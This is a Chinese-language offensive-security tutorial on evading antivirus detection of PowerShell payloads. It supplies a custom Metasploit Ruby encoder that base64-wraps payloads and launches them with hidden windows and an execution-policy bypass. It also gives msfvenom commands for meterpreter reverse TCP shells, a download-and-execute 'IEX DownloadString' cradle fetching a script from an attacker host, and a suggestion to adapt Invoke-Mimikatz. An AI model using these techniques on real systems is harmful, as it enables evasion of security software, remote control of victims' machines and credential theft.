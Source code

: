 **知识点介绍：**

Windows PowerShell是以.NET Framework技术为基础，并且与现有的WSH保持向后兼容，因此它的脚本程序不仅能访问.NET CLR，也能使用现有的COM技术。同时也包含了数种系统管理工具、简易且一致的语法，提升管理者处理，常见如登录数据库、WMI。Exchange Server 2007以及System Center Operations Manager 2007等服务器软件都将内置Windows PowerShell。Windows PowerShell的强大，并且内置，在渗透过程中，也让渗透变得更加有趣。而安全软件的对抗查杀也逐渐开始针对powershell的一切行为。在 https://technet.microsoft.com，看到文档如下：

>   Here is a listing of the available startup parameters:
-Command Specifies the command text to execute as though it were typed at the PowerShell command prompt.
-EncodedCommand Specifies the base64-encoded command text to execute.
-ExecutionPolicy Sets the default execution policy for the console session.
-File Sets the name of a script file to execute.
-InputFormat Sets the format for data sent to PowerShell as either text string or serialized XML. The default format is XML. Valid values are text and XML.
-NoExit Does not exit after running startup commands. This parameter is useful when you run PowerShell commands or scripts via the command prompt(cmd.exe).
-NoLogo Starts the PowerShell console without displaying the copyright banner.
-Noninteractive Starts the PowerShell console in non-interactive mode. In this mode, PowerShell does not present an interactive prompt to the user.
-NoProfile Tells the PowerShell console not to load the current user’s profile.
-OutputFormat Sets the format for output as either text string or serialized XML. The default format is text. Valid values are text and XML.
-PSConsoleFile Loads the specified Windows PowerShell console file. Console files end with the .psc1 extension and can be used to ensure that specific snap-in extensions are loaded and available. You can create a console file using Export-Console in Windows PowerShell.
-Sta Starts PowerShell in single-threaded mode.
-Version Sets the version of Windows PowerShell to use for compatibility,such as 1.0.
-WindowStyle Sets the window style as Normal, Minimized, Maximized, or Hidden. The default is Normal.

针对它的特性，本地测试：
> Add-Type -AssemblyName PresentationFramework;
>[System.Windows.MessageBox]::Show('Micropoor')

![](/img/faf8154c646ab4aa837ebb8d5d99ae78.jpg)

![](/img/e1f2fb4edc10e83ae5f2c2f51d6ead38.jpg)

上文所说，越来越多的杀软开始对抗，powershell的部分行为，或者特征。以msfvenom为例，生成payload。  
![](/img/7eec22528d589cc79d6af609182206e7.jpg)

micropoor.ps1不幸被杀。  
![](/img/90aeb138701d59ba01c5497d2c9d978e.jpg)

针对powershell特性，更改payload  
![](/img/12ee496efb54f3670b111d3be3cde056.jpg)

![](/img/55da22835d354321eba9b36ebf36128d.jpg)

接下来考虑的事情是如何把以上重复的工作变成自动化，并且针对powershell，DownloadString特性，设计出2种payload形式：  
（1）目标机出网  
（2）目标机不出网

并且根据需求，无缝连接Metasploit。

根据微软文档，可以找到可能对以上有帮助的属性，分别为：  
* Window  
* Style  
* NoExit EncodedCommand  
* exec

自动化实现如下：
```ruby
# copy base64.rb to metasploit-framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.
# E.g
# msf encoder(powershell/base64) > use exploit/multi/handler
# msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
# payload => windows/x64/meterpreter/reverse_tcp
# msf exploit(multi/handler) > exploit
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
# [*] Started reverse TCP handler on xx.1xx.xx.xx:xx

class MetasploitModule < Msf::Encoder
    Rank = NormalRanking

def initialize
    super(
    'Name' => 'Powershell Base64 Encoder',
    'Description' => %q{
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx
-f psh-reflection --arch x64 --platform windows | msfvenom -e
powershell/base64 --arch x64 --platform windows.
    },
    'Author' => 'Micropoor',
    'Arch' => ARCH_CMD,
    'Platform' => 'win')

register_options([
OptBool.new('payload', [ false, 'Use payload ', false ]), 
OptBool.new('x64',[ false, 'Use syswow64 powershell', false ])
])

end

def encode_block(state, buf)
base64 = Rex::Text.encode_base64(Rex::Text.to_unicode(buf)) 
cmd = ''
if datastore['x64']
    cmd += 'c:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe '
else
    cmd += 'powershell.exe ' 
end
if datastore['payload']
    cmd += '-windowstyle hidden -exec bypass -NoExit ' 
end
cmd += "-EncodedCommand \#{base64}" 
end
end

# if use caidao
# execute echo powershell -windowstyle hidden -exec bypass -c \""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.117/xxx.ps1');\""|msfvenom -e x64/xor4 --arch x64 --platform windows
# xxx.ps1 is msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
```

>copy powershell_base64.rb to metasploit‐framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.

参数 payload 选择是否使用 Metasploit payload，来去掉 powershell 的关键字。

例1（目标出网，下载执行）：

```bash
echo powershell ‐windowstyle hidden ‐exec bypass ‐c \""IEX (New‐ObjectNet.WebClient).DownloadString('http://192.168.1.117/micropoor.ps1');\""|msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows
```

![](/img/837e8a66210018c4e7891f7cc44ae8dc.jpg)  

![](/img/3101ba162d3677409f14f2e6f58a5d2d.jpg)


例2（目标不出网，本地执行）  
![](/img/274ee525bf8c174b256047a449e2165c.jpg)

### 注：加payload参数

```bash
msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.117 LPORT=8080 ‐f psh‐reflection ‐‐arch x64 ‐‐platform windows | msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows payload
```

更多有趣的实验：

把例1的 down 内容更改为例2，并且去掉 payload 参数。来减小 payload 大小。

更改 Invoke-Mimikatz.ps1 等。

![](/img/1668ff8230cc690822b002a58bed23b7.jpg)

>   Micropoor
